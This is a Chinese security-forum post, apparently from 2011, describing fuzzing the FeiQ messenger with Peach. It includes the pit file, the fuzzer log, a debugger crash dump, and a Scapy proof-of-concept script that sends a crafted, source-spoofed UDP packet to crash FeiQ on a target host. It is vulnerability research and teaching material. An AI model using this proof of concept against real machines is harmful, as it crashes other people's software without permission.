


# 用 peach 又发现一个飞秋 bug，不知道对不

> 原文：[`www.pediy.com/kssd/pediy12/144446.html`](https://www.pediy.com/kssd/pediy12/144446.html)

最近在看软件漏洞分析技术，看大家都拿 feiq 实验，我也来一个 feiq 的 bug。  
一、用 peach 做 fuzzing  
1、安装  
peach 见这里，最新是 2.3.8，有 32 位、64 位 ie for win 的下载，据说也支持在 linux、osx 下使用，但我在 linux 下安装失败，4suit-xml 包装不上，有知道原因的请告诉我。  
2、配置 feiq.xml  
用 samples/network.xml 改的，大家凑合看。  
<?xml version="1.0" encoding="utf-8"?>  
<Peach xmlns="http://phed.org/2008/Peach" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
  xsi:schemaLocation="http://phed.org/2008/Peach ../peach.xsd" version="1.0"  
  author="Michael Eddington" description="Hello World Example">  
  
  <!--  
      
  Example of the Network monitor.  This example requires two machines.  
      
  The included example program will fault on test 47.  
      
  Configure:  
      
    Change 192.168.1.195 to IP of second machine.  
      
  Syntax:  
      
    2nd machine: python peach.py -a  
    1st machine:  python peach.py samples\\Debugger.xml  
      
  Output:  
      
    You will see the tests scroll along.  Once test 47 has occured you can check  
    the c:\\peach\\logfiles folder for a log of this test that will include a Debugger.txt  
    and Network.pcap faul output.  
      
  Authors:  
      
    Michael Eddington (mike@phed.org)  
      
    $Id: Network.xml 2174 2010-10-28 00:12:48Z meddingt $  
      
  -->  
  
  <!-- Import defaults for Peach instance -->  
  <Include ns="default" src="file:defaults.xml" />  
  
    
  <DataModel name="HttpRequest">  
  <Block name="HelloWorld">  
    <String isStatic="true" value="1\_lbt4\_35#128#6CF04987CC1A#1528#22603#0#2.5a:1323191146:admin:XXCCLI-A10D5C26:" />  
    <!--用 artake 同学的 -->  
    
      <String size="4" value="0001">  
           <Hint name="NumericalString" value="true" />  
        </String>  
    
  
  </Block>  
  </DataModel>  
    
    
  <StateModel name="TheStateModel" initialState="TheState">  
    <State name="TheState">  
      <Action type="output">  
        <DataModel ref="HttpRequest" />  
      </Action>  
    </State>  
  </StateModel>  
  
    
    
    
    
  <!-- Agents that run localy will be started automatically by Peach -->  
  <Agent name="LocalAgent">  
    <Monitor name="Debugger" class="debugger.WindowsDebugEngine">  
      <!--进程监控 -->  
        
      <Param name="ProcessName" value="feiq.exe" />  
    </Monitor>  
  
  
  </Agent>  
  
  <Test name="NetworkTest">  
    <Agent ref="LocalAgent" />  
    <StateModel ref="TheStateModel"/>  
                <!--发给 feiq，udp 2425 端口 -->  
    <Publisher class="udp.Udp">  
      <Param name="host" value="127.0.0.1" />  
      <Param name="port" value="2425" />  
    </Publisher>  
  </Test>  
  
  <Run name="DefaultRun">  
    <Test ref="NetworkTest" />  
                <!--结果保存在 c:\\peach\\logs 下 -->  
    <Logger class="logger.Filesystem">  
      <Param name="path" value="logs" />  
    </Logger>  
  </Run>  
  
</Peach>  
<!-- end -->  
3、执行 c:\\peach\\peach.bat samples\\feiq.xml  
结果看图片  
  
  
  
Peach Fuzzer Run  
\=================  
  
Command line: C:\\peach\\\\bin\\peach.exe samples\\feiq.xml   
Date of run: Mon Dec 19 20:15:08 2011  
SEED: 1324296906.81  
Pit File: feiq.xml  
Run name: DefaultRun  
  
Mon Dec 19 20:15:10 2011:   
Mon Dec 19 20:15:10 2011: Test starting: NetworkTest  
Mon Dec 19 20:15:10 2011:   
Mon Dec 19 20:15:20 2011: On test variation # 1  
Mon Dec 19 20:17:19 2011: Fault was detected on test 358  
4、错误的地方  
(790.154): Access violation - code c0000005 (first chance)  
r  
eax=ffffffff ebx=00123328 ecx=3fffc0f5 edx=ffffffff esi=00133000 edi=0012eb88  
eip=0049d7cc esp=0011ef4c ebp=0012d8f0 iopl=0         nv up ei pl nz na pe cy  
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010207  
\*\*\* WARNING: Unable to verify checksum for C:\\FeiQ\\feiq.exe  
\*\*\* ERROR: Module load completed but symbols could not be loaded for C:\\FeiQ\\feiq.exe  
feiq+0x9d7cc:  
0049d7cc f3a5            rep movs dword ptr es:\[edi\],dword ptr \[esi\]  
rF  
fpcw=027F: rn 53 puozdi  fpsw=4021: top=0 cc=1000 --p----i  fptw=FFFF  
fopcode=02E9  fpip=0000:5adc2985  fpdp=0000:00000000  
st0= 0.000000000000000000000e+0000  st1= 4.670862665302404393400e-4932  
st2= 0.000000000000000000000e+0000  st3= 0.000000000000000000000e+0000  
st4= 0.000000000000000000000e+0000  st5= 1.000000000000000000000e+0000  
st6= 1.000000000000000000000e+0000  st7= 1.000000000000000000000e+0000  
feiq+0x9d7cc:  
0049d7cc f3a5            rep movs dword ptr es:\[edi\],dword ptr \[esi\]  
rX  
xmm0=-2.51252e+020 -4.98934e+020 0 0  
xmm1=-4.98927e+020 0 2.35099e-038 -2.68598e+020  
xmm2=-6.15671e-009 3.50917e-039 -1.02445e-037 1.94282e-038  
xmm3=0 -6.15655e-009 -1.63605e-037 -8.51143e-038  
xmm4=-1.22113e-037 0 0 1.4013e-045  
xmm5=1.4013e-045 1.42932e-043 -9.20565e-038 0  
xmm6=-2.68989e+020 4.2039e-045 0 1.66829e-039  
xmm7=1.42932e-043 -2.6899e+020 3.30613e-039 8.632e-043  
feiq+0x9d7cc:  
0049d7cc f3a5            rep movs dword ptr es:\[edi\],dword ptr \[esi\]  
  
5、最后给出 poc（不知道算不）  
#coding=utf-8  
#sudo python sendp.py 192.168.197.128 和了？,.！！！  
  
import sys  
import logging  
logging.getLogger('scapy.runtime').setLevel(logging.ERROR)  
from scapy.all import Ether, IP, UDP, sendp, conf, fragment  
#conf.verb = 0  
conf.ipv6\_enabled = False  
  
  
class feiqiu():  
  
  def \_\_init\_\_(self, dst):  
    self.dst = dst  
    self.msg = '1:100:as:as:32:hello.'  
    self.packet = Ether() / IP() / UDP() / self.msg  
    self.d\_msg = '1\_lbt4\_35#128#6CF04987CC1A#1528#22603#0#2.5a:1323191146:admin:XXCCLI-A10D5C26:000035'  
  def \_\_make\_packet\_\_(self):  
    self.packet = Ether(src='11:22:33:22:33:44') / IP(frag=0, dst=self.dst, src='1.1.1.1') / UDP(dport=2425) / self.msg  
  def send\_msg(self, s):  
    s = s.decode('utf-8').encode('gb2312')  
    self.msg = self.d\_msg  
      
    self.\_\_make\_packet\_\_()  
                #self.packet.show()  
    sendp(fragment(self.packet, 1024))  
if \_\_name\_\_ == "\_\_main\_\_":  
      
  
       
  import sys  
  if len(sys.argv) != 3:  
    print "Usage: sendmsg host hello\_msg\\n  eg: sendmsg 192.168.197.128 hello"  
    sys.exit(1)  
  t = feiqiu(sys.argv\[1\])  
  msg = ''  
  t.send\_msg(msg)